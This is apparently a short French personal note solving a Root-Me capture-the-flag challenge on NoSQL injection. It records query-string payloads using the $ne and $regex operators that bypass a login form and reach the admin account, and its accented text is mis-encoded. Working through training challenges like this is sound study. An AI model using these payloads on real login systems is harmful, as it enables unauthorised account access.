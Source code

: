 ```yaml
---
categorie: ???
tags:
  - rootme
  - "#informatique/cyber"
lien: https://www.root-me.org/fr/Challenges/Web-Serveur/NoSQL-injection-Authentification
---
```

# But

trouver le nom de l'utilisateur cachÃ©

# Fourni

# MÃ©thode de rÃ©solution


http://challenge01.root-me.org/web-serveur/ch38/?login[$ne]=toto&pass[$ne]=toto# 


je suis allÃ© sur hacktricks pour voir comment fonctionne une injection no sql

j'ai pu fazire quelques tests, et me connecter ne admin avec cette commande : 

http://challenge01.root-me.org/web-serveur/ch38/?login[$ne]=toto&pass[$ne]=toto

je crois que je peux me connecter en tant que login not equal toto 
mais je ne suis pas sur de savoir pourquoi admin
# Solution

login[$ne]=toto&pass[$regex]=a.{2}




